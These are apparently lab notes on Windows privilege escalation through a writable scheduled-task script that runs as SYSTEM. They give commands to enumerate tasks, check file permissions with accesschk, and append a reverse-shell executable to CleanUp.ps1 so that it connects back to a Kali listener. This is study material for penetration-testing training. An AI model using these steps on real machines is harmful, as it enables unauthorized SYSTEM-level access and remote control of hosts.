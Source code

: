 Unfortunately, there is no easy method for enumerating custom tasks that belong to other users as a low privileged user account.

List all scheduled tasks your user can see:

```command prompt - windows
schtasks /query /fo LIST /v
```

In PowerShell:

PS>
```command prompt - windows
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

Often we have to rely on other clues, such as finding a script or log file that indicates a scheduled task is being run.

1. In the C:\DevTools directory, there is a PowerShell script called “CleanUp.ps1”. View the script:

```command prompt - windows
type C:\DevTools\CleanUp.ps1
```

2. This script seems like it is running every minute as the SYSTEM user. We can check our privileges on this script using accesschk.exe:

```command prompt - windows
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```

It appears we have the ability to write to this file.

3. Backup the script:

```command prompt - windows
copy C:\DevTools\CleanUp.ps1 C:\Temp\
```

4. Start a listener on Kali.

[[rlwrap]]

5. Use echo to append a call to our reverse shell executable to the end of the script:

[[1._Reverse Shells (WIN)#MSFVenom]]

```command prompt - windows
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

6. Wait for the scheduled task to run (it should run every minute) to complete the exploit.
